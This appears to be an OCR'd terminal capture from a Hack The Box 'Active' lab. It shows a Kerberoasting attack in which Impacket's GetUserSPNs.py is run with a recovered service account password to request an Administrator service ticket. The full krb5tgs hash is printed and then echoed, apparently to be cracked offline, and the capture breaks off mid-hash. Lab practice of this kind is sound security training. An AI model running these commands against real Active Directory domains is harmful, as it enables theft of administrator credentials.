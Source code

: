 root@kali:~/active# cat user.txt  
86d#########ZENSIERT#########983

root@kali:~/active# python GetUserSPNs.py -dc-ip 10.10.10.100 -request active.htb/SVC_TGS:GPPstillStandingStrong2k18  
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

ServicePrincipalName Name MemberOf PasswordLastSet LastLogon  
-------------------- ------------- -------------------------------------------------------- ------------------- -------------------  
active/CIFS:445 Administrator CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb 2018-07-18 21:06:40 2018-07-30 19:17:40

$krb5tgs$23$_Administrator$ACTIVE.HTB$active/CIFS~445_$10589d87c1a98b404545a09ac0edbec8$9470373fe8ddd05e0cb35e6307ce19f2b782e291b568af5f62b6096dfb46dee03cd8add92816c256b21fc8c475acdf49e825e2f32a361bd4b94b9d56eb7  
de54b8a728752c6f7e50ceb6024d388b4ba99ba4a02dd3975355f49f9184f1e6b7606f5554d5e45d28693a5aef90f0591d36567d0e8c641e16e7c8d05047b2d9d2040e5be0a37abcb7e0e106f0a98f5861f000506daef442270dba05d0a0b593a86cd2cfb231ed9a623  
da2ec87bfd185a90c79baf2d05b9f6a0edd79c9a25a2087f22211dc99749099ac091fceab6647e6da19164dba1bd174df0bb0e3f82ba790f840b7b0d19fbc8d4e21077b9f7dc45cfc9e54ce9b788293c6d222504fdc995923ad940bdfc80da606708f0485b448a9e689  
d165f07b1d5da0f249c5db85d98d54be7d3a985808cfee3bbeb3f875eb33e6b818ed5d2f699960280092ebf9506d0510bb3f23fd1d94ce0ee3cbd3066240ddeda67986a5b70334baea5dbd88743fb3ef843ea170ecd38469a5fa1dc957566579ea25ec3c81f0e8dbaa6  
8e0c203409ebedd098cc928cab4632c401d7c5a64cc997ed3ec6e87b37b44d5dc349c25edf41623df54cde4cc356fe1023ac62684a9278bf0756d46634eb1a0379d614dd78488293b8e7a7e770ac078afdc6b60f0edd4c336557a6791c398126c61c9e546894e29d5d7  
ae3111e13fbdd4c7b68be0d7e71520d3f7f1ec6826fe24683a7c9c32a16c28221ebd8b4fe61a189cfce3d2115d9840aa9e3d77a46077d05a6cca034a81117f1240fc21c9ccaba16c5bed6815a8338b75dc293b193f45b8354e0f5aa2acad7c1606bd5d30651e9661663  
211b1e11c07073c9d932e157073fd8940055a1fb2c03260af72a521c9f633412b3d1bf9e9e21b755a92d812a1e6061dff7c0564286a0c897e6be885a8fdb8b48c6314ed2d118d504675b9935f65eafecd69f57894fdee85a32950f9ef8f21c5f6010019837d1fa1cd68  
8161cf02a9e6eb47041a83258353fb2fdd434a20de6362cb17f42b44b53f4f7b6ecd83d1b4c23698562a1ebe5b306bc6154aaaf3668738fb72078e90ad4ce5c72cd6f92df6d6747d6fcd7d23b9616a9fdbdd4312a25960102dc9b6985128e77fc7b6227bf27248efe90  
f6637e0b98bb4a72e6e452b80931649dec99bf2e8fa3c418889a6d83576110f1ad655f3e67c798b724e7b8ae1512b32ab4dbb5e46f1fd278124ba952467ec27014f0ea8e88346db8949b6c606fc9d7081ad03b85d7fa15b96a60  
root@kali:~/active# echo '$krb5tgs$23$_Administrator$ACTIVE.HTB$active/CIFS~445_$10589d87c1a98b404545a09ac0edbec8$9470373fe8ddd05e0cb35e6307ce19f2b782e291b568af5f62b6096dfb46dee03cd8add92816c256b21fc8c475acdf49e  
825e2f32a361bd4b94b9d56eb7de54b8a728752c6f7e50ceb6024d388b4ba99ba4a02dd3975355f49f9184f1e6b7606f5554d5e45d28693a5aef90f0591d36567d0e8c641e16e7c8d05047b2d9d2040e5be0a37abcb7e0e106f0a98f5861f000506daef442270dba05d  
0a0b593a86cd2cfb231ed9a623da2ec87bfd185a90c79baf2d05b9f6a0edd79c9a25a2087f22211dc99749099ac091fceab6647e6da19164dba1bd174df0bb0e3f82ba790f840b7b0d19fbc8d4e21077b9f7dc45cfc9e54ce9b788293c6d222504fdc995923ad940bdf  
c80da606708f0485b448a9e689d165f07b1d5da0f249c5db85d98d54be7d3a985808cfee3bbeb3f875eb33e6b818ed5d2f699960280092ebf9506d0510bb3f23fd1d94ce0ee3cbd3066240ddeda67986a5b70334baea5dbd88743fb3ef843ea170ecd38469a5fa1dc95  
7566579ea25ec3c81f0e8dbaa68e0c203409ebedd098cc928cab4632c401d7c5a64cc997ed3ec6e87b37b44d5dc349c25edf41623df54cde4cc356fe1023ac62684a9278bf0756d46634eb1a0379d614dd78488293b8e7a7e770ac078afdc6b60f0edd4c336557a6791  
c398126c61c9e546894e29d5d7ae3111e13fbdd4c7b68be0d7e71520d3f7f1ec6826fe24683a7c9c32a16c28221ebd8b4fe61a189cfce3d2115d9840aa9e3d77a46077d05a6cca034a81117f1240fc21c9ccaba16c5bed6815a8338b75dc293b193f45b8354e0f5aa2a  
cad7c1606bd5d30651e9661663211b1e11c07073c9d932e157073fd8940055a1fb2c03260af72a521c9f633412b3d1bf9e9e21b755a92d812a1e6061dff7c0564286a0c897e6be885a8fdb8b48c6314ed2d118d504675b9935f65eafecd69f57894fdee85a32950f9ef  
8f21c5f6010019837d1fa1cd688161cf02a9e6eb47041a83258353fb2fdd434a20de6362cb17f42b44b53f4f7b6ecd83d1b4c23698562a1ebe5b306bc6154aaaf3668738fb72078e90ad4ce5c72cd6f92df6d6747d6fcd7d23b9616a9fdbdd4312a25960102dc9b6985  